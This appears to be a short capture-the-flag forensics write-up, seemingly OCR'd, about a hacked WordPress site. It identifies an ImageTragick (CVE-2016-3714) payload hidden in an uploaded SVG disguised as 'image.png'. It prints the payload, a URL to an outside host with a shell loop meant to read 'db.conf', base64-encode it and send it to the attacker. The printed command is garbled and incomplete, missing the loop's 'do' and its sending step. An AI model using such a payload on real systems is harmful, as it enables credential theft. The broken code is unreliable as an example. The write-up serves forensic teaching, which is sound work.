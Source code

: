 Solution
========

You get the document root of a hacked Wordpress, which naturally does not includes the webserver logs, meaning you cannot find out if the attack was delivered through the Wordpress login endpoints.
However, there an upload folder at `/wp-content/uploads/` with some user uploaded files. Investigating those files, you find an `image.png` file that contains an SVG with the malicious payload

```
https://pngimage.ack.poc.re/x.php?x=%60for i in $(cat /server/www/conf/db.conf | base64 -w0) ; @- > /dev/null; done

```

This payload reads the `db.conf` and sends it to the attackers site. Executing malicious code inside an SVG is only possible if the SVG parser of this site is vulnerable to CVE-2016-3714, which is also known as `ImageTragick`.


Flag
----

`ImageTragick`
